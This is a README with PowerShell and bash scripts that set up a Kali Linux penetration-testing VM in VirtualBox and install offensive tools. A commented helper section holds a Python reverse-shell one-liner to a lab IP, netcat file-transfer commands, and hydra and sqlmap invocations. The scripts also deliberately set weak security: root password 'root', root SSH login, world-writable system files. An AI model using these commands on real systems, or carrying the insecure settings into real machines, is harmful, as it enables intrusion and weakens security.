 
# Setup Kali Linux VM in Virtualbox

```markdown
> Austin.Lai |
> -----------| February 10th, 2024
> -----------| Updated on February 10th, 2024
```

---

## Table of Contents

<!-- TOC -->

- [Setup Kali Linux VM in Virtualbox](#setup-kali-linux-vm-in-virtualbox)
    - [Table of Contents](#table-of-contents)
    - [Disclaimer](#disclaimer)
    - [Description](#description)
    - [virtualbox import and modifyvm powershell script](#virtualbox-import-and-modifyvm-powershell-script)
[init script](#init-script)t--1)
        - [set-terminal](#set-terminal)
        - [system-update](#system-update)
        - [sshkey](#sshkey)
        - [setup](#setup)

<!-- /TOC -->

<br>

## Disclaimer

<span style="color: red; font-weight: bold;">DISCLAIMER:</span>

This project/repository is provided "as is" and without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages or other liability, whether in an action of contract, tort or otherwise, arising from, out of or in connection with the software or the use or other dealings in the software.

This project/repository is for <span style="color: red; font-weight: bold;">Educational</span> purpose <span style="color: red; font-weight: bold;">ONLY</span>. Do not use it without permission. The usual disclaimer applies, especially the fact that me (Austin) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (data loss, system crash, system compromise, etc.) caused by the use of these programs is not Austin responsibility.

<br>

## Description

<!-- Description -->

This project/repository is a local setup of <span style="color: red; font-weight: bold;">Kali Linux VM in Virtualbox</span>.

<span style="color: orange; font-weight: bold;">Note:</span>

- The configurations in this project/repository are for your reference ONLY (the reasons are as follows):
    - The setup is hosted in <span style="color: green; font-weight: bold;">Virtual Machine</span> environment, leveraging <span style="color: green; font-weight: bold;">Virtualbox</span> on a <span style="color: green; font-weight: bold;">Windows</span> host.
    - You can download Kali Linux Virtualbox VM from [Official Kali Pre-built Virtual Machines](https://www.kali.org/get-kali/#kali-virtual-machines).
    - This setup require you to configure two network interfaces for the Kali Linux Virtualbox VM:

        1. VirtualBox Host-Only Ethernet Adapter (192.168.56.0/24)
        2. NAT

    - This setup has a `virtualbox-import-and-modifyvm` powershell script:
        - [virtualbox import and modifyvm powershell script](#virtualbox-import-and-modifyvm-powershell-script)
    - This setup has a bash script file:
[init script](#init-script)
    - Please change the configuration accordingly to suits your hosting environment.

<!-- /Description -->

<br>

## virtualbox import and modifyvm powershell script

This powershell script will extract the Kali Linux VirtualBox VM archive to the specified folder.

Then, it will change the configuration accordingly:

- Enable Hot-Pluggable HHD
- Use USB3 instead of USB1
- Enable 3D Acceleration
- Enable Remote Display Server with port 5954 and use "guest" authentication method
- Enable audio in
- Set Network Adapter 1 to "VirtualBox Host-Only Ethernet Adapter"
- Set Network Adapter 2 to "NAT"
- Enable share folder with auto-mount

The `virtualbox-import-and-modifyvm.ps1` file can be found [here](virtualbox-import-and-modifyvm.ps1) or below:

<details>

<summary><span style="padding-left:10px;">Click here to expand for the "virtualbox-import-and-modifyvm.ps1" !!!</span></summary>

```powershell
# Define paths and variables
$archivePath = "C:\kali-linux-2023.4-virtualbox-amd64.7z"
$extractedPath = "C:\virtual-machines-storage"
$vboxFilePath = "C:\virtual-machines-storage\kali-linux-2023.4-virtualbox-amd64\kali-linux-2023.4-virtualbox-amd64.vbox"
$diskName = "kali-linux-2023.4-virtualbox-amd64.vdi"

# Extract the 7z archive using Bandizip CLI
# Start-Process -FilePath "bandizip.exe" -ArgumentList "/extract:$archivePath /dest:$extractedPath"
bandizip.exe x -y $archivePath $extractedPath



# Enable hot-pluggable hard disk

# Read the content from the file
$content = Get-Content -Path $vboxFilePath

# Replace the old string with the new one
$content = $content -replace '<AttachedDevice type="HardDisk" hotpluggable="false" port="0" device="0">', '<AttachedDevice type="HardDisk" hotpluggable="true" port="0" device="0">'

# Write the updated content back to the file
$content | Set-Content -Path $vboxFilePath



# Select USB3 Controller

# Read the content from the file
$content = Get-Content -Path $vboxFilePath

# Replace the old string with the new one
$content = $content -replace '<Controller name="OHCI" type="OHCI"/>', '<Controller name="xHCI" type="XHCI"/>'

# Write the updated content back to the file
$content | Set-Content -Path $vboxFilePath



# Register the virtual machine to VirtualBox
VBoxManage registervm "$vboxFilePath"

# Enable 3D acceleration
VBoxManage modifyvm "kali-linux-2023.4-virtualbox-amd64" --accelerate3d on

# Configure remote server
VBoxManage modifyvm "kali-linux-2023.4-virtualbox-amd64" --vrde on
VBoxManage modifyvm "kali-linux-2023.4-virtualbox-amd64" --vrdeport 5954
VBoxManage modifyvm "kali-linux-2023.4-virtualbox-amd64" --vrdeauthtype guest
VBoxManage modifyvm "kali-linux-2023.4-virtualbox-amd64" --vrdemulticon on

# Enable audio input
VBoxManage modifyvm "kali-linux-2023.4-virtualbox-amd64" --audioin on

# Configure network adapters
VBoxManage modifyvm "kali-linux-2023.4-virtualbox-amd64" --nic1 hostonly --hostonlyadapter1 "VirtualBox Host-Only Ethernet Adapter"
# VBoxManage modifyvm "kali-linux-2023.4-virtualbox-amd64" --nic2 natnetwork --nat-network2 "$networkName"
VBoxManage modifyvm "kali-linux-2023.4-virtualbox-amd64" --nic2 nat 

# Enable shared folder
# VBoxManage sharedfolder add "kali-linux-2023.4-virtualbox-amd64" --name "virtual-machines-storage" --hostpath "$extractedPath" --automount
VBoxManage sharedfolder add "kali-linux-2023.4-virtualbox-amd64" --name "host-c" --hostpath "C:\" --automount
VBoxManage sharedfolder add "kali-linux-2023.4-virtualbox-amd64" --name "virtual-machines-storage" --hostpath "C:\virtual-machines-storage" --automount

Write-Host "Kali Linux virtual machine configuration completed."
```

<br>

## init script -1

This project/repository has a helper shell script with description and usage as shown below:

```
Description:
             This is an init script for setting up Kali Linux.
             Please select 'set-terminal' if you are running this for the first time.
             After successful running 'set-terminal', then run 'system-update'.
      Usage:
             ./kali-linux-Virtualbox-init.sh [options]

    Options:
            -h:  Display this help message (--help, /?).
         setup:  Start the configuration.
        sshkey:  Start generate sshkey for kali and root.
  set-terminal:  This is to set qterminal (/home/kali/.config/qterminal.org/qterminal.ini) and make it immutable.
 system-update:  Doing system-update with 'apt update'.
```

The `kali-linux-Virtualbox-init.sh` file can be found [here](kali-linux-virtualbox-init.sh) or below:

<details>

<summary><span style="padding-left:10px;">Click here to expand for the "kali-linux-Virtualbox-init.sh" !!!</span></summary>

```bash
#!/bin/bash

# Get the current path and the filename of the script
script_file_name="$0"

# Display help message
display_help() {
  echo -e "\nDescription:"
  echo "             This is an init script for setting up Kali Linux."
  echo "             Please select 'set-terminal' if you are running this for the first time."
  echo "             After successful running 'set-terminal', then run 'system-update'."
  echo "      Usage:"
  echo -e "             $script_file_name [options]\n"
  echo "    Options:"
  echo "            -h:  Display this help message (--help, /?)."
  echo "         setup:  Start the configuration."
  echo "        sshkey:  Start generate sshkey for kali and root."
  echo "  set-terminal:  This is to set qterminal (/home/kali/.config/qterminal.org/qterminal.ini) and make it immutable."
  echo " system-update:  Doing system-update with 'apt update'."
}

# Prompt user for input
yes_or_no() {
  while true; do
    echo -e "\nYou have selected 'setup'"
    read -p "Would you like to continue? ('yes|y|Yes|Y|YES' or 'no|n|No|N|N'): " answer
    case $answer in
    [yY] | [yY][eE][sS])
      return 0
      ;;
    [nN] | [nN][oO])
      return 1
      ;;
    *)
      echo -e "\nInvalid input.\n"
      ;;
    esac
  done
}

# Check immutable attribute of a file
check_immutable_attribute() {
    if chattr -i "$1" &>/dev/null; then
        # echo "$1 is not immutable (chattr -i)."
        # echo "$1 does not have the immutable attribute (chattr +i) set."
        return 1
    else
        # echo "$1 is immutable (chattr +i)."
        # echo "$1 is set with the immutable attribute (chattr +i)."
        return 0
    fi
}

# Function to download and install a .deb package
install_deb_package() {
    local package_url="$1"
    local package_name="$2"

    echo "Downloading $package_name..."
    wget "$package_url" -O "$package_name.deb"

    if [ -e "$package_name.deb" ]; then
        echo "Installing $package_name..."
        sudo -S <<< "kali" dpkg -i "$package_name.deb"
        sudo -S <<< "kali" apt --fix-broken install -y
        rm "$package_name.deb"
        echo "$package_name installed successfully."
    else
        echo "Failed to download $package_name."
    fi
}

# Function to check the content of a file
check_file_content() {
  file="$1"
  content="$2"
  found=false

  for attempt in 1 2; do
    if ! grep -q "$content" "$file"; then
      if [ $attempt -eq 1 ]; then
        echo "Content not found in $file. You MUST close qterminal and open a new one again..."
      else
        echo "Content not found in $file on the second attempt. You MUST do a \"echo \"kali\" sudo reboot\"..."
        exit 1
      fi
    else
      found=true
      break  # Content found, break out of the loop
    fi
  done

  if [ "$found" = true ]; then
    echo "Content found in $file."
  fi
}

# Check if exactly one argument is provided
if [ "$#" -ne 1 ]; then
  display_help
  exit 1
fi

# Check for command line arguments
if [ -z "$1" ]; then
  arg1="-h"
else
  arg1="$1"
fi

# Display help message
if [ "$arg1" = "/?" ] || [ "$arg1" = "-h" ] || [ "$arg1" = "--help" ]; then
  display_help
  exit 0
fi

# Capture Ctrl+C and exit
trap "exit 1" INT

# Get the current date in the format DDMMYYYY
current_date=$(date +'%d%m%Y-%H%M')

# Store the argument
argument="$1"

# Store the argument as option
option=""

# Check the argument against the allowed options
case "$argument" in
    "/?" | "-h" | "--help")
        display_help
        ;;
    "setup")
        option="setup"
        ;;
    "sshkey")
        option="sshkey"
        ;;
    "system-update")
        option="system-update"
        ;;
    "set-terminal")
        option="set-terminal"
        ;;
    *)
        echo -e "\nInvalid option: $argument"
        display_help
        exit 1
        ;;
esac

# Continue the script based on the option
if [[ "$option" == "setup" ]]; then

    # Define the filename with the current date
    output_file="setup-$current_date.log"

    {
      # Turn on debugging mode
      set -xv

      # setterm -foreground white -background blue
      # setterm -store

      shopt -s extglob
      shopt -s cdspell
      shopt -s direxpand
      shopt -s dirspell
      shopt -s dotglob
      shopt -s histappend
      shopt -s globstar
      shopt -s nullglob

      # Call function to prompt user for input and continue setup configuration if user enters 'yes'
      if yes_or_no; then

        echo -e "\nTesting setup configuration...\n"

        # Set hostname
        sudo -S <<< "kali" hostnamectl set-hostname kali-Virtualbox

        # Set timezone
        sudo -S <<< "kali" timedatectl set-timezone Asia/Singapore

        # Set host-only network with static IP in /etc/network/interfaces
        if grep -q "iface eth1 inet static" /etc/network/interfaces; then
          # The string "iface eth1 inet static" was found in the file
          echo -e "The string \"iface eth1 inet static\" was found in the file.\n"
        else
          # The string was not found in the file
          echo -e "The string \"iface eth1 inet static\" was NOT found in the file.\n"
          
          # Backup /etc/network/interfaces
          sudo -S <<< "kali" cp -v /etc/network/interfaces /home/kali/Desktop/interfaces.$current_date.bak
          sudo -S <<< "kali" chmod 777 /home/kali/Desktop/interfaces.$current_date.bak
          
          { echo "kali"; echo ""; } | sudo -k -S tee -a /etc/network/interfaces &>/dev/null
          { echo "kali"; echo "auto eth1"; } | sudo -k -S tee -a /etc/network/interfaces &>/dev/null
          { echo "kali"; echo "iface eth1 inet static"; } | sudo -k -S tee -a /etc/network/interfaces &>/dev/null
          { echo "kali"; echo "    address 192.168.138.6"; } | sudo -k -S tee -a /etc/network/interfaces &>/dev/null
          { echo "kali"; echo "    netmask 255.255.255.0"; } | sudo -k -S tee -a /etc/network/interfaces &>/dev/null
          sudo -S <<< "kali" chmod 777 /etc/network/interfaces
          sleep 2
          sudo -S <<< "kali" systemctl restart networking
          sleep 2
          sudo -S <<< "kali" ip a | grep -A 10 eth1
        fi

        # Set root password
        { echo "root"; echo "root"; } | sudo -S passwd root &>/dev/null

        # Edit /etc/hosts with hostname
        if grep -q "kali-Virtualbox" /etc/hosts; then
          # The string "kali-Virtualbox" was found in the file
          echo -e "The string \"kali-Virtualbox\" was found in the file.\n"
        else
          # The string was not found in the file
          echo -e "The string \"kali-Virtualbox\" was NOT found in the file.\n"
          
          # Backup /etc/hosts
          sudo -S <<< "kali" cp -v /etc/hosts /etc/hosts.$current_date.bak
          sudo -S <<< "kali" chmod 777 /etc/hosts.$current_date.bak

          # Edit /etc/hosts with hostname
          sudo -S <<< "kali" sed -i.bak '/127.0.0.1\s*localhost/i 127.0.0.1       kali-Virtualbox' /etc/hosts
          sudo -S <<< "kali" sed -i.bak '/127.0.0.1\s*kali-Virtualbox/i 192.168.138.6   kali-Virtualbox' /etc/hosts
          sudo -S <<< "kali" chmod 777 /etc/hosts
          sudo -S <<< "kali" cat /etc/hosts
        fi

        # Update apt
        sudo -S <<< "kali" apt update -y

        # Install rust
        # echo "kali" | sudo -S curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh -s -- -y
        # sleep 2
        # rustup update
        # sleep 2
        sudo -S <<< "kali" apt install -y cargo zsh
      
        sleep 2
        setopt CORRECT
        setopt ALL_EXPORT
        setopt autocd
        setopt interactivecomments
        setopt magicequalsubst
        setopt notify
        setopt promptsubst
        
        sleep 2
        chsh -s $(which zsh)

        # Install starship prompt
        echo "kali" | sudo -S curl -sS https://starship.rs/install.sh | sh -s -- -y
        sleep 2

        # Install basic tools
        sudo -S <<< "kali" apt install -y zsh-autosuggestions dos2unix python3 tmux asciinema golang sshuttle neofetch zsh git software-properties-common powershell nmap ltrace lsof strace tshark tcpdump exiftool rpm man-db upx-ucl nfs-common cifs-utils rdesktop ncat netcat-traditional wfuzz sqlmap dnsenum enum4linux nikto nbtscan-unixwiz smbmap linux-exploit-suggester exploitdb binwalk sshuttle john hydra wordlists sshpass jq openssl morse hashid 2to3 mcrypt bsdgames morse2ascii seclists curl feroxbuster impacket-scripts onesixtyone oscanner redis-tools smbclient sslscan tnscmd10g whatweb wkhtmltopdf ffuf gobuster gcc gpg ripgrep fd-find screen powershell-empire starkiller feroxbuster netcat-openbsd metasploit-framework armitage koadic mingw-w64 freerdp2-shadow-x11 freerdp2-x11 snapd remmina ruby evil-winrm feroxbuster shellter evilginx2 chisel burpsuite
        sleep 2

        # Install sliver c2
        sudo -S <<< "kali" apt install -y sliver

        # Install rustscan
        cargo install rustscan
        sleep 2
        cargo install eza
        sleep 2

        # Install fast-syntax-highlighting and zsh-autocomplete
        git clone https://github.com/zdharma-continuum/fast-syntax-highlighting /home/kali/.config/fast-syntax-highlighting
        git clone --depth 1 -- https://github.com/marlonrichert/zsh-autocomplete.git /home/kali/.config/zsh-autocomplete

        # Install fonts-cascadia-code and FiraCode Nerd Font
        echo "Downloading CascadiaCode Nerd Font..."
        wget https://github.com/microsoft/cascadia-code/releases/download/v2105.24/CascadiaCode-2105.24.zip
        
        echo "Downloading FiraCode Nerd Font..."
        wget https://github.com/ryanoasis/nerd-fonts/releases/download/v2.1.0/FiraCode.zip

        # Unzip the downloaded font
        unzip CascadiaCode-2105.24.zip
        sudo -S <<< "kali" unzip FiraCode.zip -d /usr/share/fonts/truetype/
        
        sudo -S <<< "kali" cp -v ttf/CascadiaCodePL.ttf /usr/share/fonts/truetype/

        # Update the system's font cache
        sudo -S <<< "kali" fc-cache -f -v

        # Cleanup
        rm -f CascadiaCode-2105.24.zip
        rm -f FiraCode.zip
        rm -rf otf ttf woff2
        rm -f wget-log

        # Install VSCODE Version 1.83
        vscode_url="https://go.microsoft.com/fwlink/?LinkID=760868"
        install_deb_package "$vscode_url" "vscode"

        # Install Google Chrome
        google_chrome_url="https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb"
        install_deb_package "$google_chrome_url" "google-chrome"

        # Install Microsoft Edge
        edge_url="https://packages.microsoft.com/repos/edge/pool/main/m/microsoft-edge-stable/microsoft-edge-stable_118.0.2088.46-1_amd64.deb?brand=M102"
        install_deb_package "$edge_url" "microsoft-edge"

        # missing owasp-zap
        echo -e "\nmissing owasp-zap"

        # missing powershell-for-pentesters # git clone https://github.com/dievus/PowerShellForPentesters
        echo -e "\nmissing powershell-for-pentesters \ngit clone https://github.com/dievus/PowerShellForPentesters"

        # missing powershell-suite # git clone https://github.com/FuzzySecurity/PowerShell-Suite.git
        echo -e "\nmissing powershell-suite \ngit clone https://github.com/FuzzySecurity/PowerShell-Suite.git"

        # missing webserver # git clone https://github.com/MScholtes/WebServer.git
        echo -e "\nmissing webserver \ngit clone https://github.com/MScholtes/WebServer.git"

        # missing ssh-backdoor # git clone https://github.com/NinjaJc01/ssh-backdoor.git
        echo -e "\nmissing ssh-backdoor \ngit clone https://github.com/NinjaJc01/ssh-backdoor.git"

        # missing jwt_tool # git clone https://github.com/ticarpi/jwt_tool
        echo -e "\nmissing jwt_tool \ngit clone https://github.com/ticarpi/jwt_tool"

        # Install and setup pipx
        python3 -m pip install --user pipx termcolor cprint pycryptodomex requests
        python3 -m pipx ensurepath
        pipx ensurepath

        # Install tools using pipx
        pipx install crackmapexec
        pipx ensurepath

        # Install tools using pip3
        pip3 install updog
        pip3 install kerbrute
        pip3 install name-that-hash
        pip3 install qu1ckdr0p2

        # Install kerbrute using Go
        go install github.com/ropnop/kerbrute@latest

        # Update databases for nmap, wpscan, searchsploit, and locate
        sudo -S <<< "kali" nmap --script-updatedb
        sudo -S <<< "kali" wpscan --update
        sudo -S <<< "kali" searchsploit -u
        sudo -S <<< "kali" updatedb

        # Upgrade apt
        sudo -S <<< "kali" apt full-upgrade -y
        sleep 2

        # Autoremove apt and purge
        sudo -S <<< "kali" apt autoremove --purge -y && sudo apt autoclean -y

        # Enable SSH at boot and allow root login with SSH
        sudo -S <<< "kali" systemctl enable ssh.service
        sudo -S <<< "kali" sed -i.bak 's/#PermitRootLogin prohibit-password/PermitRootLogin yes/' /etc/ssh/sshd_config
        sudo -S <<< "kali" sed -i.bak 's/#PubkeyAuthentication yes/PubkeyAuthentication yes/' /etc/ssh/sshd_config
        sudo -S <<< "kali" systemctl restart ssh.service

        # Backup /home/kali/.zshrc
        cp -v /home/kali/.zshrc /home/kali/.zshrc.$current_date.bak
        
        echo -e '\neval "$(starship init zsh)"' >> /home/kali/.zshrc
        echo -e '\nexport PATH="$PATH:/home/kali/.cargo/bin"' >> /home/kali/.zshrc

        # Check the content of /home/kali/.zshrc 
        echo ""
        cat /home/kali/.zshrc
        echo ""

        echo -e "\nHISTSIZE=9999\nSAVEHIST=9999\n\nalias nc.tra=/usr/bin/nc.traditional\nalias nc.bsd=/usr/bin/nc.openbsd\nalias screenrec=\"asciinema rec --stdin -i 1 ./\$(date +\"%F_%T_%z\").cast\"\nalias kali_desktop=\"cd /home/kali/Desktop\"\nalias root_desktop=\"cd /root\"\n\nsource ~/.config/fast-syntax-highlighting/fast-syntax-highlighting.plugin.zsh\n\nsource ~/.config/zsh-autocomplete/zsh-autocomplete.plugin.zsh\n\nexport STARSHIP_CONFIG=~/.config/pastel-powerline.toml\n\n" >> /home/kali/.zshrc

        # Check the content of /home/kali/.zshrc
        echo ""
        cat /home/kali/.zshrc
        echo ""

        echo -e 'source ~/kali-linux-Virtualbox-zsh.sh' >> /home/kali.zshrc

        # Check the content of /home/kali/.zshrc
        echo ""
        cat /home/kali/.zshrc
        echo ""

        echo -e "set -g mouse on\n# sane scrolling:\nbind -n WheelUpPane if-shell -F -t = \"#{mouse_any_flag}\" \"send-keys -M\" \"if -Ft= '#{pane_in_mode}' 'send-keys -M' 'copy-mode -e; send-keys -M'\"" >> /home/kali/.tmux.conf

        # Check the content of /home/kali/.tmux.conf
        echo ""
        cat /home/kali/.tmux.conf
        echo ""

        



        echo -e "\n !!! MANUALLY COPY THE BELOW TO /home/kali/kali-linux-Virtualbox-zsh.sh !!! \n"
        #########################################################################################
        # /home/kali/kali-linux-Virtualbox-zsh.sh
        # MANUALLY COPY THE BELOW TO /home/kali/kali-linux-Virtualbox-zsh.sh
        #########################################################################################
        #!/bin/bash

        # fake_sshkey() {
        #     echo -e "\n ssh-keygen -t rsa -f fake.id_rsa -P '' ; cat fake.id_rsa.pub \n"

        #     default_fileName="fake"

        #     echo -n "Specify filename or press Enter to use default filename ($default_fileName): "

        #     read fileName

        #     if [ -z "$fileName" ]; then
        #         fileName=$default_fileName
        #     fi

        #     ssh-keygen -t rsa -f "${fileName}.id_rsa" -P ""

        #     echo -e " \n "

        #     cat "${fileName}.id_rsa.pub"
        # }



        # ffuf_command() {

        #     ls -lah /usr/share/wordlists

        #     echo -e "\n ffuf -u http://\$1 -w \"/usr/share/wordlists\" -c -v -t 50 -od . -of md -o ffuf-\$3.md \$* \n"
        # }



        # thm_ffuf() {

        #     ls -lah /usr/share/wordlists

        #     echo -n "Specify target (e.g., IP/FQDN): "
        #     read target

        #     echo -n "Specify output filename (e.g., IP/FQDN): "
        #     read filename

        #     echo -n "Specify wordlist: "
        #     read wordlist

        #     ffuf -u "http://$target" -w "$wordlist" -c -v -t 50 -od . -of md -o "${filename}.thm-ffuf.md"
        # }



        # ffuf_vhost_command() {

        #     ls -lah /usr/share/wordlists

        #     echo -e "\n ffuf -w \"/usr/share/wordlists\" -u http://forge.htb/ -H 'Host: FUZZ.forge.htb' -t 200 -fl 10 -c -od . -of md -o ffuf-vhost-forge.htb.md \n"
        # }



        # find_suid() {
        #     echo -e "\n find / -type f -perm -04000 -ls >> '$(whoami)-find-suid.txt' 2>/dev/null \n"
        # }



        # gobuster_command() {
            
        #     ls -lah /usr/share/wordlists

        #     echo -e "\n gobuster -t 45 --delay 100ms dir -e -u \"http://$one\" -o \"gobuster-dir-$two\" -w \"/usr/share/wordlists\" \n"
        # }



        # gobuster_dir() {
            
        #     ls -lah /usr/share/wordlists

        #     echo -n "Specify target (e.g., IP/FQDN): "
        #     read target

        #     echo -n "Specify output filename (e.g., IP/FQDN): "
        #     read filename

        #     echo -n "Specify wordlist: "
        #     read wordlist

        #     gobuster -t 45 --delay 100ms dir -e -u "http://$target" -o "$filename.gobuster-dir" -w "$wordlist"
        # }



        # hash_id() {
        #     echo -e "\n nth -a | ev -t | -f hash  ---OR--- hashid -ejm hash \n"
        # }



        # hydra_command() {
        #     echo " hydra -s port -o hydra-output -VV -t 60 -f -l lin -P locks.txt 10.10.155.24 ssh "
        # }



        # john_command() {
                
        #     ls -lah /usr/share/wordlists

        #     echo -e "\n john --format=NT -w rockyou.lst hash.txt --pot=output.txt \n"
        # }



        # john_result() {
        #     echo -e "\n john --show hash \n"
        # }



        # nc_recv() {
        #     echo -e "\n nc -nlvvp 9998 > \$* \n"
        # }



        # nc_send() {
        #     echo -e "\n nc -vv \$1 9998 < \$2 \$* \n"
        # }



        # nc17777() {
        #     arguments="-lnvvp 17777"
        #     nc ${arguments}
        # }



        # nc17778() {
        #     arguments="-lnvvp 17778"
        #     nc ${arguments}
        # }



        # nc18888() {
        #     arguments="-lnvvp 18888"
        #     nc ${arguments}
        # }



        # nc18889() {
        #     arguments="-lnvvp 18889"
        #     nc ${arguments}
        # }



        # nc19998recv() {
        #     port=19998

        #     echo -n "Enter the targeted filename: "
        #     read fileName

        #     nc -w 30 -nlvvp $port > $fileName
        # }



        # nc19998send() {
        #     port=19998

        #     echo -n "Specify target (e.g., IP/FQDN): "
        #     read target_IP

        #     echo -n "Enter the source filename: "
        #     read fileName

        #     cat ${fileName} | nc -w 30 -vv ${target_IP} ${port}
        # }



        # nc19999recv() {
        #     port=19999

        #     echo -n "Enter the targeted filename: "
        #     read fileName

        #     nc -w 30 -nlvvp $port > $fileName
        # }



        # nc19999send() {
        #     port=19999

        #     echo -n "Specify target (e.g., IP/FQDN): "
        #     read target_IP
            
        #     echo -n "Enter the source filename: "
        #     read fileName

        #     cat $fileName | nc -w 30 -vv $target_IP $port
        # }



        # new_sshkey() {
            
        #     echo -n "Enter the source filename: "
        #     read fileName

        #     ssh-keygen -o -v -t ed25519 -a 1000 -f "${fileName}.id_rsa" -P ""
        # }



        # nikto_command() {
        #     echo -e "\n nikto -h devzat.htb -p 80 -o nikto-result-devzat.htb -Format txt -Display V \n"
        # }



        # nmap_output() {
        #     echo -e "\n -oN nmap-full-safe-scan-\$1 \$2 \$* \n"
        # }



        # nmap_fast_3000() {
            
        #     echo -n "Specify target (e.g., IP/FQDN): "
        #     read target
            
        #     echo -n "Specify output filename (e.g., IP/FQDN): "
        #     read filename

        #     nmap -n --privileged --stats-every 25s -vvvvvv -Pn -F --top-ports 3000 -r -sV -O --version-light -T4 --min-parallelism 30 --min-rate 300 --reason --append-output -oN "${filename}.nmap-fast-3000" $target
        # }



        # nmap_fast_port() {
            
        #     echo -n "Specify target (e.g., IP/FQDN): "
        #     read target
            
        #     echo -n "Specify output filename (e.g., IP/FQDN): "
        #     read filename

        #     nmap -n --privileged --stats-every 25s -vvvvvv -Pn -p- -r -sV -O --version-light -T4 --min-parallelism 30 --min-rate 300 --reason --append-output -oN "${filename}.nmap-fast-port" $target
        # }



        # nmap_full_max() {
            
        #     echo -n "Specify target (e.g., IP/FQDN): "
        #     read target
            
        #     echo -n "Specify output filename (e.g., IP/FQDN): "
        #     read filename

        #     nmap -n --privileged --stats-every 15s -vvvvvv -Pn -p- -r -A -sCSV -O --version-all -T4 --max-parallelism 30 --max-rate 300 --reason --script=safe,default,discovery,version,vuln --append-output -oN "${filename}.nmap-full-max" $target
        # }



        # nmap_full_min() {
            
        #     echo -n "Specify target (e.g., IP/FQDN): "
        #     read target
            
        #     echo -n "Specify output filename (e.g., IP/FQDN): "
        #     read filename

        #     nmap -n --privileged --stats-every 15s -vvvvvv -Pn -p- -r -A -sCSV -O --version-all -T4 --min-parallelism 30 --min-rate 300 --reason --script=safe,default,discovery,version,vuln --append-output -oN "${filename}.nmap-full-min" $target
        # }



        # nmap_full_no_script() {
            
        #     echo -n "Specify target (e.g., IP/FQDN): "
        #     read target
            
        #     echo -n "Specify output filename (e.g., IP/FQDN): "
        #     read filename

        #     nmap -n --privileged --stats-every 15s -vvvvvv -Pn -p- -r -A -sCSV -O --version-all -T4 --min-parallelism 30 --min-rate 300 --reason --append-output -oN "${filename}.nmap-full-no-script" $target
        # }



        # nmap_open() {
            
        #     echo -n "Specify target (e.g., IP/FQDN): "
        #     read target
            
        #     echo -n "Specify output filename (e.g., IP/FQDN): "
        #     read filename

        #     nmap -n --privileged --stats-every 15s -vvvvvv -Pn -p- -r -open --append-output -oN "${filename}.nmap-open" $target
        # }



        # nmap_ping() {
            
        #     echo -n "Specify target (e.g., IP/FQDN): "
        #     read target
            
        #     echo -n "Specify output filename (e.g., IP/FQDN): "
        #     read filename

        #     nmap -n --privileged --stats-every 15s -vvvvvv -sn --append-output -oN "${filename}.nmap-ping" $target
        # }



        # password_list() {
        #     ls -lah /usr/share/wordlists
        # }



        # python_web() {
        #     echo -n "Enter the port: "
        #     read Port
        #     python3 -m http.server $Port
        # }



        # python3_reverse_shell() {
        #     echo -e "\n /usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.4.2.85\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' \n"
        # }



        # readme() {
        #     code -n ./README.md
        # }



        # rustscan_command() {
        #   echo -e "\n rustscan -u 5000 -b 1900 -t 4000 --tries 2 --scan-order serial -a 192.168.0.1 -- -Pn -A -sVC --script=safe,default,discovery,version,vuln | tee rustscan-full-result-NAME \n"
        # }



        # rustscan_simple() {
        #   echo -e "\n rustscan -u 5000 -b 1900 -t 4000 --tries 2 --scan-order serial -a 10.10.32.200 -- -Pn -sV --script=version | tee rustscan-simple-result-NAME \n"
        # }



        # sqlmap_command() {
        #   echo -e "\n sqlmap -u http://10.10.166.239/login.php --forms --data=\"user=^&password=^&s=Submit\" --risk=3 --level=5 --dbs --method POST -o --batch -v 1 --eta --threads=10 --schema --exclude-sysdbs \n"
        # }



        # sshkey_remove() {
        #     echo -n "Enter the IP/Hostname to be removed: "
        #     read STRINGS
        #     ssh-keygen -R $STRINGS
        # }



        # wget_command() {
        #     echo -e "\n wget -r -np -R \"index.html*\" WEB_PATH \n"
        # }



        # wget_recursive() {
        #     echo -n "Enter the URL: "
        #     read STRINGS
        #     wget -r -np -R "index.html*" $STRINGS
        # }



        # wordlist() {
        #     ls -lah /usr/share/wordlists
        # }

        # You can add more functions as needed
        #########################################################################################

        # Check the content of /home/kali/kali-linux-Virtualbox-zsh.sh
        # echo ""
        # cat /home/kali/kali-linux-Virtualbox-zsh.sh
        # echo ""





        echo -e "\n !!! MANUALLY COPY THE BELOW TO /home/kali/.config/pastel-powerline.toml !!! \n"
        #########################################################################################
        # /home/kali/.config/pastel-powerline.toml
        # MANUALLY COPY THE BELOW TO /home/kali/.config/pastel-powerline.toml
        #########################################################################################
        # # Get editor completions based on the config schema
        # "$schema" = 'https://starship.rs/config-schema.json'

        # # Inserts a blank line between shell prompts
        # add_newline = true

        # # A continuation prompt that displays two filled in arrows
        # continuation_prompt = "▶▶"

        # # Wait 10 milliseconds for starship to check files under the current directory.
        # scan_timeout = 10

        # # Set 'austin' as custom color palette
        # palette = 'austin'

        # format = """$time$username $fill$cmd_duration$status
        # $directory
        # $os$shell$character"""

        # # Disable the package module, hiding it from the prompt completely
        # [package]
        # disabled = true

